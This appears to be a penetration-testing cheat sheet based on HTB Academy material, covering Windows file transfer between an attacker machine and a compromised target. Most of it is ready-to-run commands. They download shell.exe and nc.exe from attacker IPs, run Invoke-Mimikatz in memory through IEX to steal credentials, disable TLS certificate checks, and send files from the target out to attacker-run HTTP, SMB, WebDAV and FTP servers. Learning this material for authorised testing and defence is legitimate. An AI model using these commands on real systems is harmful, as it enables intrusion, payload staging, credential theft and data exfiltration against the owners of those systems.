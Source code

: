 # Windows

## Download

### Copy\&Paste

This works by encoding the file as base64 and copying it to the destination and decode the string back to file. This might come in handy

#### Attacker > Target

```bash
kali@kali $ cat <file> |base64 -w 0;echo
```

```powershell
PS C:\> [IO.File]::WriteAllBytes("<fullpath&name>", [Convert]::FromBase64String("<base64 contents>"))
```

#### Target > Attacker

```powershell
PS C:\> [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```

```bash
kali@kali $  echo <base64 contents> | base64 -d > hosts
```

> It is worth noting that the further steps are requried for file contents validation to ensure that the transferred file are moved witout any corruption.

```bash
kali@kali $ md5sum <file>
```

```powershell
PS C:\> Get-FileHash <file> -Algorithm md5
```

### PS File download

```powershell
PS C:\> (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
PS C:\> #(New-Object Net.WebClient).DownloadFile('http://10.10.14.220/shell.exe','C:\Users\Public\Downloads\shell.exe')

PS C:\> (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
PS C:\> #(New-Object Net.WebClient).DownloadFileAsync('http://10.10.14.220/shell.exe','C:\Users\Public\Downloads\shell.exe')
```

### Fileless Method

Downloads the payload and excecute it directly in memory using **Invoke-Expression** cmdlet 'IEX'

```powershell
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
PS C:\> # OR pipeline input
PS C:\> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

### Invoke-WebRequest | iwr | curl | wget

Invoke-WebRequest has multiple aliases such as iwr, curl, and wget.

```powershell
PS C:\> Invoke-WebRequest http://10.10.14.220/shell.exe -OutFile shell.exe
```

### Errors in PowerShell

1. If the following error occurs, bypass using `-UserBasicParsing.`

![Internet Explorer first-launch prevents the download](https://academy.hackthebox.com/storage/modules/24/IE\_settings.png)

```powershell
PS C:\> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

2. SSL/TLS secure channel error which could be bypassed using following command.

> Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust relationship for the SSL/TLS secure channel."

```powershell
PS C:\> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

### SMB Server

On the **attacker**'s machine, create a smbserver using `impacket` package.

```bash
kali@kali $ sudo impacket-smbserver share -smb2support /tmp/smbsharepower
```

On the **target**, run:

<pre class="language-powershell"><code class="lang-powershell"><strong>C:\> copy \\&#x3C;ip>\share\nc.exe
</strong><strong>C:\> #copy \\10.10.14.220\share\nc.exe
</strong></code></pre>

**If Windows block unauthenticated guest.**

On the **attacker**'s machine, create SMB server with **user** and **pass**

```bash
kali@kali $ sudo impacket-smbserver share -smb2support /tmp/smbshare -user <user> -password <pass>
```

On the **target** machine, mount and copy the file.

<pre class="language-sh"><code class="lang-sh"><strong>C:\> net use n: \\&#x3C;ip>\&#x3C;share dir> /user:&#x3C;user> &#x3C;pass>
</strong>C:\> copy n:\nc.exe
</code></pre>

> Can try to copy the file directly using the `copy \\<ip>\share\nc.exe` command. but copying this command might result in error, try mount and copy instead.

### FTP Server

On the **attacker**'s machine, create a ftp server using Python3's `pyftpdlib` module.

```bash
kali@kali $ sudo python3 -m pyftpdlib --port 21
```

On the **target** machine, mount and copy the file.

```powershell
PS C:\> (New-Object Net.WebClient).DownloadFile('ftp://<ip>/file.txt', 'ftp-file.txt')
```

## Upload

### PS uploads (Python uploadserver)

To upload file, we need a server.

On the **attacker**'s machine, create a upload server using Python3's `uploadserver` module.

```bash
kali@kali $ python3 -m uploadserver
```

On the **target** machine, run

```powershell
PS C:\> Invoke-FileUpload -Uri http://<ip>:<port>/upload -File C:\Windows\System32\drivers\etc\hostsp
```

### PS uploads (Web based)

**Attacker** creates a netcat listener.

```bash
kali@kali $ nc -lvnp 8000
```

**Target** sends file throught HTTP POST method.

```powershell
PS C:\> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

**Attacker** decodes the stream back to file.

<pre class="language-bash"><code class="lang-bash"><strong>kali@kali $ echo &#x3C;base64> | base64 -d -w 0 > hosts
</strong></code></pre>

### SMB Server

On the **attacker**'s machine, create a upload server using Python3's `wsgidav` module.

<pre class="language-bash"><code class="lang-bash"><strong>kali@kali $ sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
</strong></code></pre>

On the **target** machine, run

<pre class="language-shell-session"><code class="lang-shell-session"><strong>C:\> dir \\192.168.49.128\DavWWWRoot
</strong>C:\> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
C:\> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
</code></pre>

> Notice that it this method the `impacket-smbserver` was not used due to the port445 restrictions. Feel free to use it if there is no restriction.

### FTP Uploads

On the **attacker**'s machine, create a upload server using Python3's `pyftpdlib` module. but this time `--write` attribute is specified to allow client (target) to upload files.

```bash
kali@kali $ python3 -m pyftpdlib --port 21 --write
```

On the **target** machine, run

```
PS C:\> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```



## Resources

* Most of the commands and contents are from **HTB academy lab!**

